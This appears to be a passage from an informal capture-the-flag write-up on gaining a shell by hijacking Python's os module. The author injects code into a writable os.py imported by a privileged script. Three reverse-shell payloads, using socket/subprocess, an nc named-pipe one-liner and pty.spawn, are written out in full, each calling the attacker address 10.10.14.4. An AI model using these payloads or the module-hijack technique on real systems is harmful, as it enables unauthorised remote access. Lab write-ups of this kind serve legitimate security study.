

Edit: I checkecked again the script and i did a mistake mailserver was a comment so here the onnly thing that can be exploited on same was is print!
Finding the module:


We know script is using python and not python3 so we may have to check and add +x as the original one:


Add a Python revshell in the malicious print file. Edit: still wrong.. The file to edit is os.. As always i miss things:


Knowing that os.pyc is called by script during "import os" and that we have write access we can inject some code...
We can inject this Python revshell(from payload all the things). I took the last one since it wasn't using os module:
`import socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",6666))
subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'`

Edit:
I was looking on the wrong file again, apparently os.pyc was wrong, we had write permissions on os.py aswell ad we must add our code to that file insted. Just add it to the end like we did before...

After almost half hour of try and retry i had to go back and use another command:
`import os
os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 6666 >/tmp/f")`



I tried another shell, a whole one from Payload all the things:
`import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")`

And it got shell:


Moral: I had to use the whole fucking code...

